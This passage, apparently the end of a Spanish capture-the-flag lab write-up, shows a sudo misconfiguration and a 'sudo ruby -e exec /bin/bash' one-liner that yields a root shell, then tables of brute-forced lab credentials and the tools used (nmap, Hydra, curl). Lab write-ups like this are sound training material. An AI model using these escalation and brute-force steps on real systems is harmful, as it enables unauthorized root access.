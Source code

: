 Listamos los permisos `sudo`:

```bash
sudo -l
```

Resultado:

```
User juan may run the following commands on 2b9b77c590b9:
    (ALL) NOPASSWD: /usr/bin/ruby
```

✅ **Juan puede ejecutar `/usr/bin/ruby` como root sin contraseña**.

---

### 📈 **Escalada usando Ruby**

Como Juan puede usar Ruby como root, **escalamos privilegios** ejecutando:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

**Explicación del comando**:
- `sudo` → Ejecutamos como root.
- `/usr/bin/ruby` → Usamos Ruby, autorizado sin contraseña.
- `-e` → Ejecutamos el siguiente código Ruby:
- `'exec "/bin/bash"'` → Ruby reemplaza su proceso actual por una **shell bash como root**.

✅ Ahora tenemos **una consola root**.

---

# 🏁 **Máquina Completada**

| Usuario | Contraseña | Método de Acceso                 |
|:--------|:-----------|:---------------------------------|
| camilo  | password1  | Hydra + SSH                      |
| juan    | 2k84dicb   | Contraseña encontrada + SSH      |
| root    | N/A        | `sudo ruby` y ejecución de bash  |

---

# 🛠️ **Herramientas Utilizadas**

| Herramienta | Descripción | Uso |
|:------------|:------------|:----|
| **nmap**    | Escaneo de red | Identificar puertos y servicios abiertos |
| **hydra**   | Fuerza bruta | Obtener acceso SSH explotando contraseñas débiles |
| **ssh**     | Conexión segura | Acceso remoto a los usuarios |
| **sudo**    | Escalada de privilegios | Obtener permisos de superusuario |
| **curl**    | Peticiones HTTP | Extracción de mensajes ocultos en HTML |

---